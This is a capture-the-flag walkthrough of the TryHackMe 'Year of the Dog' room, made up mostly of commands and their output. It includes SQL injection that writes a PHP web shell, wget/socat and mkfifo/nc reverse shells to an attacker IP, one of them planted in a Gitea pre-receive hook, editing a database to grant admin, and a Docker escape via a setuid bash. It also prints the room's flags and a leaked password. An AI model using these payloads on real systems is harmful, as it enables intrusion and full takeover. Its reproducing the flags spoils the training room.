


# Year of the Dog

Always so polite...

[Year of the Dog](https://tryhackme.com/room/yearofthedog)

## Topic's

- Network Enumeration
- SQL Injection
- Reverse Engineering
- SQL Manupilation
- Git Hook Exploitation
- Docker Escape

## Appendix archive

Password: `1 kn0w 1 5h0uldn'7!`

## Task 1 Flags

Who knew? The dog has some bite!

```
kali@kali:~/CTFs/tryhackme/Year of the Dog$ sudo nmap -A -sS -sC -sV -O 10.10.179.85
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-14 19:13 CET
Nmap scan report for 10.10.179.85
Host is up (0.032s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e4:c9:dd:9b:db:95:9e:fd:19:a9:a6:0d:4c:43:9f:fa (RSA)
|   256 c3:fc:10:d8:78:47:7e:fb:89:cf:81:8b:6e:f1:0a:fd (ECDSA)
|_  256 27:68:ff:ef:c0:68:e2:49:75:59:34:f2:bd:f0:c9:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Canis Queue
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=11/14%OT=22%CT=1%CU=40485%PV=Y%DS=2%DC=T%G=Y%TM=5FB01E
OS:68%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OP
OS:S(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST
OS:11NW7%O6=M508ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)EC
OS:N(R=Y%DF=Y%T=40%W=F507%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8888/tcp)
HOP RTT      ADDRESS
1   32.22 ms 10.8.0.1
2   33.13 ms 10.10.179.85

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.49 seconds
```

[](http://10.10.179.85/)



`644bbad7b32f0a63ef4dc1de84e153ca'`

```
Error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''644bbad7b32f0a63ef4dc1de84e153ca''' at line 1
```

```
' union select 1, @@version-- -
```



`You are number 5.7.31-0ubuntu0.18.04.1 in the queue`

```
' union select 1, table_name FROM information_schema.tables-- -
```

`You are number queue in the queue`

```
' INTO OUTFILE '/var/www/html/shell.php' LINES TERMINATED BY 0x3C3F706870206563686F20223C7072653E22202E207368656C6C5F6578656328245F4745545B22636D64225D29202E20223C2F7072653E223B3F3E-- -
```

[http://10.10.179.85/shell.php?cmd=whoami](http://10.10.179.85/shell.php?cmd=whoami)

```
wget 10.8.106.222/socat -q -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat tcp:10.8.106.222:53 exec:"bash -li",pty,stderr,sigint,setsid,sane
```

```
wget%2010.8.106.222%2Fsocat%20-q%20-O%20%2Ftmp%2Fsocat%3B%20chmod%20%2Bx%20%2Ftmp%2Fsocat%3B%20%2Ftmp%2Fsocat%20tcp%3A10.8.106.222%3A53%20exec%3A%22bash%20-li%22%2Cpty%2Cstderr%2Csigint%2Csetsid%2Csane
```

```
kali@kali:~/CTFs/tryhackme/Year of the Dog$ sudo socat tcp-l:53 file:`tty`,raw,echo=0
[sudo] password for kali:
www-data@year-of-the-dog:/home/dylan$ ls -la
total 120
drwxr-xr-x 4 dylan dylan  4096 Sep  5 22:36 .
drwxr-xr-x 3 root  root   4096 Sep  3 17:23 ..
lrwxrwxrwx 1 dylan dylan     9 Sep  3 17:24 .bash_history -> /dev/null
-rw-r--r-- 1 dylan dylan   220 Sep  3 17:23 .bash_logout
-rw-r--r-- 1 dylan dylan  3771 Sep  3 17:23 .bashrc
drwx------ 2 dylan dylan  4096 Sep  3 17:24 .cache
-rw-rw-r-- 1 dylan dylan    53 Sep  5 21:40 .gitconfig
drwx------ 3 dylan dylan  4096 Sep  3 17:24 .gnupg
lrwxrwxrwx 1 root  root      9 Sep  3 21:16 .mysql_history -> /dev/null
-rw-r--r-- 1 dylan dylan   807 Sep  3 17:23 .profile
-rw-r--r-- 1 dylan dylan     0 Sep  3 17:25 .sudo_as_admin_successful
-r-------- 1 dylan dylan    38 Sep  5 22:36 user.txt
-rw-r--r-- 1 dylan dylan 85134 Sep  5 21:11 work_analysis
www-data@year-of-the-dog:/home/dylan$ cat user.txt
cat: user.txt: Permission denied
www-data@year-of-the-dog:/home/dylan$
```

```
www-data@year-of-the-dog:/home/dylan$ head work_analysis
Sep  5 20:52:34 staging-server sshd[39184]: Received disconnect from 192.168.1.142 port 45582:11: Bye Bye [preauth]
Sep  5 20:52:34 staging-server sshd[39184]: Disconnected from authenticating user root 192.168.1.142 port 45582 [preauth]
Sep  5 20:52:35 staging-server sshd[39190]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.1.142  user=root
Sep  5 20:52:35 staging-server sshd[39191]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.1.142  user=root
Sep  5 20:52:35 staging-server sshd[39194]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.1.142  user=root
Sep  5 20:52:35 staging-server sshd[39195]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.1.142  user=root
Sep  5 20:52:35 staging-server sshd[39192]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.1.142  user=root
Sep  5 20:52:35 staging-server sshd[39189]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.1.142  user=root
Sep  5 20:52:35 staging-server sshd[39186]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.1.142  user=root
Sep  5 20:52:35 staging-server sshd[39196]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.1.142  user=root

www-data@year-of-the-dog:/home/dylan$ grep "dylan" work_analysis
Sep  5 20:52:57 staging-server sshd[39218]: Invalid user dylanLabr4d0rs4L1f3 from 192.168.1.142 port 45624
Sep  5 20:53:03 staging-server sshd[39218]: Failed password for invalid user dylanLabr4d0rs4L1f3 from 192.168.1.142 port 45624 ssh2
Sep  5 20:53:04 staging-server sshd[39218]: Connection closed by invalid user dylanLabr4d0rs4L1f3 192.168.1.142 port 45624 [preauth]
www-data@year-of-the-dog:/home/dylan$
```

`dylan:Labr4d0rs4L1f3`

```
kali@kali:~/CTFs/tryhackme/Year of the Dog$ ssh dylan@10.10.179.85
The authenticity of host '10.10.179.85 (10.10.179.85)' can't be established.
ECDSA key fingerprint is SHA256:ZQhtZbHSQm8e0SOq4EyzzwfLf01L5P0MC3bdo9xqb0M.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.179.85' (ECDSA) to the list of known hosts.
dylan@10.10.179.85's password:


        __   __                       __   _   _            ____
        \ \ / /__  __ _ _ __    ___  / _| | |_| |__   ___  |  _ \  ___   __ _
         \ V / _ \/ _` | '__|  / _ \| |_  | __| '_ \ / _ \ | | | |/ _ \ / _` |
          | |  __/ (_| | |    | (_) |  _| | |_| | | |  __/ | |_| | (_) | (_| |
          |_|\___|\__,_|_|     \___/|_|    \__|_| |_|\___| |____/ \___/ \__, |
                                                                        |___/


dylan@year-of-the-dog:~$
```

```
dylan@year-of-the-dog:~$ cat user.txt
THM{OTE3MTQyNTM5NzRiN2VjNTQyYWM2M2Ji}
```

```
dylan@year-of-the-dog:~$ ss -tulwn
Netid   State     Recv-Q    Send-Q            Local Address:Port          Peer Address:Port
icmp6   UNCONN    0         0                        *%eth0:58                       *:*
udp     UNCONN    0         0                       0.0.0.0:41742              0.0.0.0:*
udp     UNCONN    0         0                 127.0.0.53%lo:53                 0.0.0.0:*
udp     UNCONN    0         0             10.10.179.85%eth0:68                 0.0.0.0:*
tcp     LISTEN    0         128               127.0.0.53%lo:53                 0.0.0.0:*
tcp     LISTEN    0         128                     0.0.0.0:22                 0.0.0.0:*
tcp     LISTEN    0         128                   127.0.0.1:3000               0.0.0.0:*
tcp     LISTEN    0         128                   127.0.0.1:36097              0.0.0.0:*
tcp     LISTEN    0         80                    127.0.0.1:3306               0.0.0.0:*
tcp     LISTEN    0         128                           *:80                       *:*
tcp     LISTEN    0         128                        [::]:22                    [::]:*
```

```
www-data@year-of-the-dog:/home/dylan$ /tmp/socat tcp-l:8080,fork,reuseaddr tcp:127.0.0.1:3000 &
[1] 1590
www-data@year-of-the-dog:/home/dylan$
```

```
dylan@year-of-the-dog:~$ ls -la /
total 239796
drwxr-xr-x  23 root root      4096 Sep  5 19:29 .
drwxr-xr-x  23 root root      4096 Sep  5 19:29 ..
drwxr-xr-x   2 root root      4096 Sep  3 17:31 bin
drwxr-xr-x   3 root root      4096 Sep  3 17:34 boot
drwxr-xr-x  17 root root      3680 Nov 14 18:10 dev
drwxr-xr-x  93 root root      4096 Sep  6 23:31 etc
drwxr-xr-x   5 root root      4096 Sep  5 19:29 gitea
drwxr-xr-x   3 root root      4096 Sep  3 17:23 home
lrwxrwxrwx   1 root root        34 Sep  3 17:33 initrd.img -> boot/initrd.img-4.15.0-115-generic
lrwxrwxrwx   1 root root        33 Sep  3 17:17 initrd.img.old -> boot/initrd.img-4.15.0-20-generic
drwxr-xr-x  23 root root      4096 Sep  5 13:21 lib
drwxr-xr-x   2 root root      4096 Sep  3 17:30 lib64
drwx------   2 root root     16384 Sep  3 17:17 lost+found
drwxr-xr-x   3 root root      4096 Sep  3 17:17 media
drwxr-xr-x   2 root root      4096 Apr 26  2018 mnt
drwxr-xr-x   3 root root      4096 Sep  5 13:21 opt
dr-xr-xr-x 121 root root         0 Nov 14 18:10 proc
drwx------   4 root root      4096 Sep  6 14:07 root
drwxr-xr-x  28 root root       900 Nov 14 18:10 run
drwxr-xr-x   2 root root     12288 Sep  5 13:21 sbin
drwxr-xr-x   2 root root      4096 Apr 26  2018 srv
-rw-------   1 root root 245452800 Sep  3 17:17 swapfile
dr-xr-xr-x  13 root root         0 Nov 14 18:10 sys
drwxrwxrwt  10 root root      4096 Nov 14 18:48 tmp
drwxr-xr-x  10 root root      4096 Sep  3 17:17 usr
drwxr-xr-x  13 root root      4096 Sep  3 17:34 var
lrwxrwxrwx   1 root root        31 Sep  3 17:33 vmlinuz -> boot/vmlinuz-4.15.0-115-generic
lrwxrwxrwx   1 root root        30 Sep  3 17:17 vmlinuz.old -> boot/vmlinuz-4.15.0-20-generic
dylan@year-of-the-dog:~$ cd /gitea/
dylan@year-of-the-dog:/gitea$
```

[http://10.10.179.85:8080/](http://10.10.179.85:8080/)

```
kali@kali:~/CTFs/tryhackme/Year of the Dog$ scp dylan@10.10.179.85:/gitea/gitea/gitea.db /home/kali/CTFs/tryhackme/Year\ of\ the\ Dog/gitea.db
dylan@10.10.179.85's password:
gitea.db                                                                         100% 1184KB 393.6KB/s   00:03
kali@kali:~/CTFs/tryhackme/Year of the Dog$ sqlite3 gitea.db
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> SELECT * FROM user;
1|dylan|Dylan|Dylan Anderson|dylan@yearofthedog.thm|0|enabled|f2fd45caa2f5eae17cb5faa06eb57c4ad05532550fe37ae99e2245429757af09350be12abba616de4e8f0e37d223bd327261|argon2|0|0|0||0|||Rs6zSrVgx0|vkA9FTpZ72|en-US||1599331364|1599511857|1599511857|0|-1|1|1|0|0|0|1|0|8bb88c80301457422026e95699061e4a|dylan@yearofthedog.thm|1|0|0|0|1|0|0|0|0||gitea|0
2|test|test||test@example.de|0|enabled|e6d955e14c8e7d1736ea12090cc7fd8bfb9ed04ed907d06626969038c60dc8a341925af3bcfa870805bc07010e8a18f47a3f|argon2|0|0|0||0|||evuSMwlzZI|5lIckyKZjs|en-US||1605380293|1605380293|1605380293|0|-1|1|0|0|0|0|1|0|27091d6d9177f6041782b04c2223746f|test@example.de|0|0|0|0|0|0|0|0|0||gitea|0
sqlite> select lower_name, is_admin from user;
dylan|1
test|0
sqlite> UPDATE user SET is_admin=1 WHERE lower_name="test";
sqlite> .quit
kali@kali:~/CTFs/tryhackme/Year of the Dog$
```

[http://10.10.179.85:8080/admin](http://10.10.179.85:8080/admin)

[http://10.10.179.85:8080/test/Test-Repo/settings/hooks/git/pre-receive](http://10.10.179.85:8080/test/Test-Repo/settings/hooks/git/pre-receive)

```sh
#!/bin/sh
#
# An example hook script to make use of push options.
# The example simply echoes all push options that start with 'echoback='
# and rejects all pushes when the "reject" push option is used.
#
# To enable this hook, rename this file to "pre-receive".

if test -n "$GIT_PUSH_OPTION_COUNT"
then
	i=0
	while test "$i" -lt "$GIT_PUSH_OPTION_COUNT"
	do
		eval "value=\$GIT_PUSH_OPTION_$i"
		case "$value" in
		echoback=*)
			echo "echo from the pre-receive-hook: ${value#*=}" >&2
			;;
		reject)
			exit 1
		esac
		i=$((i + 1))
	done
fi
mkfifo /tmp/f; nc 10.8.106.222 9001 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

```
dylan@year-of-the-dog:~$ git clone http://localhost:3000/test/Test-Repo && cd Test-Repo
Cloning into 'Test-Repo'...
warning: You appear to have cloned an empty repository.
dylan@year-of-the-dog:~/Test-Repo$ echo "test" >> README.md
dylan@year-of-the-dog:~/Test-Repo$ git add README.md
dylan@year-of-the-dog:~/Test-Repo$ git commit -m "Exploit"
[master (root-commit) 95a2fec] Exploit
 1 file changed, 1 insertion(+)
 create mode 100644 README.md
dylan@year-of-the-dog:~/Test-Repo$ git push
Username for 'http://localhost:3000': test
Password for 'http://test@localhost:3000':
Counting objects: 3, done.
Writing objects: 100% (3/3), 217 bytes | 217.00 KiB/s, done.
Total 3 (delta 0), reused 0 (delta 0)
```

```
dylan@year-of-the-dog:/gitea/gitea$ cd /bin
dylan@year-of-the-dog:/bin$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
172.17.0.2 - - [14/Nov/2020 19:14:14] "GET /bash HTTP/1.1" 200 -
^C
Keyboard interrupt received, exiting.
```

```
kali@kali:~/CTFs/tryhackme/Year of the Dog$ nc -nlvp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.179.85 36967
whoami
git
id
uid=1000(git) gid=1000(git) groups=1000(git),1000(git)
sudo -l
User git may run the following commands on 42040a8f97fc:
    (ALL) NOPASSWD: ALL
sudo -s
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
wget 172.17.0.1:8000/bash -O /data/bash
Connecting to 172.17.0.1:8000 (172.17.0.1:8000)
saving to '/data/bash'
bash                 100% |********************************| 1087k  0:00:00 ETA
'/data/bash' saved
chmod 4755 /data/bash
```

```
dylan@year-of-the-dog:/gitea$ ls -la
total 1108
drwxr-xr-x  5 root  root     4096 Nov 14 19:14 .
drwxr-xr-x 23 root  root     4096 Sep  5 19:29 ..
-rwsr-xr-x  1 root  root  1113504 Nov 14 19:14 bash
drwxr-xr-x  5 dylan dylan    4096 Sep  5 19:41 git
drwxr-xr-x  9 dylan dylan    4096 Nov 14 19:05 gitea
drwx------  2 root  root     4096 Sep  5 19:29 ssh
dylan@year-of-the-dog:/gitea$ ./bash -p
bash-4.4# id
uid=1000(dylan) gid=1000(dylan) euid=0(root) groups=1000(dylan)
bash-4.4# cat /root/root.txt
THM{MzlhNGY5YWM0ZTU5ZGQ0OGI0YTc0OWRh}
```

User Flag

`THM{OTE3MTQyNTM5NzRiN2VjNTQyYWM2M2Ji}`

Root Flag

`THM{MzlhNGY5YWM0ZTU5ZGQ0OGI0YTc0OWRh}`
